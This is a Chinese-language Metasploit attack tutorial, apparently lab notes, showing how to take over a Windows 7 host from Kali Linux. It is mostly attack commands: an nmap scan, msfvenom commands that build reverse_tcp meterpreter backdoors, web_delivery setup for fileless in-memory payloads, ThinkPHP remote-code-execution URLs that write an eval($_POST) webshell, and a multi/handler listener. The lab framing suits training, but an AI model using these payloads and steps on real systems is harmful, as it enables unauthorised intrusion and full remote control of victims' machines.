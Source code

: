 ## 01.Msf攻击-从命令执行道meterpreter

##02.Msf攻击-从webshell到完全控制

###目标站点

####target：win7x64 192.168.2.241【dhcp】

####attack：kali-linux 192.168.2.243

####方法一：通过web站点，使用无文件的方式攻击利用执行

####方法二：通过web站点，上传webshell，返回给msf

####方法三：攻击其他端口服务，拿到meterpreter

###nmap端口扫描

####nmap -sV -T4 192.168.2.241

###方法一

####访问web站点，寻找漏洞

####http://192.168.2.241/dvwa/vunlerabilities/exec/#

###生成后门

### **windows：**

####msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

### **php:**

####msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

### **python:**

####msfvenom -p python/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

### 如何使用

#### 当攻击者拥有部分受害者主机的控制权，但还没有拿到一个完整的shell时，web_delivery就派上用场。

####web_delivery的主要目的是快速和受害者主机建立一条session。**当受害者主机存在比如命令注入、远程命令执行等问题时，攻击者可以使用web_delivery生成的一条命令建立连接。**

####另外web_delivery的payload不会再受害者主机磁盘上写文件，而是直接将攻击者服务器上的代码加载到内存呢执行，有利于绕过检测。

####web_delivery支持php/python/powershell等多种脚本，使用不同的脚本的payload时需要通过set target 0或1或2来设置是使用php还是python还是powershell等。

### 如何利用

msf5 > use exploit/mulit/script/web_delivery

msf5 exploit(mulit/script/web_delivery) > set uripath /

msf5 exploit(mulit/script/web_delivery) > set payload php/meterpreter/reverse_tcp

msf5 exploit(mulit/script/web_delivery) > set target 1

msf5 exploit(mulit/script/web_delivery) > set lhost 192.168.2.243

msf5 exploit(mulit/script/web_delivery) > run

### 方法二

### 访问web站点，寻找漏洞

#### http://192.168.2.241/html/public

### 找到漏洞利用点

#### google搜索

### 如何利用-写入webshell

#### http://192.168.2.241/html/public/index.php?s=index/\think\template\driver\file\write&cacheFile=phpinfo.php&content=%3C?php%20phpinfo();?%3E

#### http://192.168.2.241/html/public/index.php?s=index/\thinktemplate/driver/file/write&cacheFile=shell.php&content=%3C?php%20eval($_POST[c]);?%3E

###如何利用-msf监听上线

#### msf5 exploit(mulit/script/web_delivery) > use expolit/multi/handler

####msf5 exploit(multi/handler) > show options

####msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

####msf5 exploit(multi/handler) >show options 

####msf5 exploit(multi/handler) > set lhost 192.168.2.243

####msf5 exploit(multi/handler) > set lport 8881

####msf5 exploit(multi/handler) > run
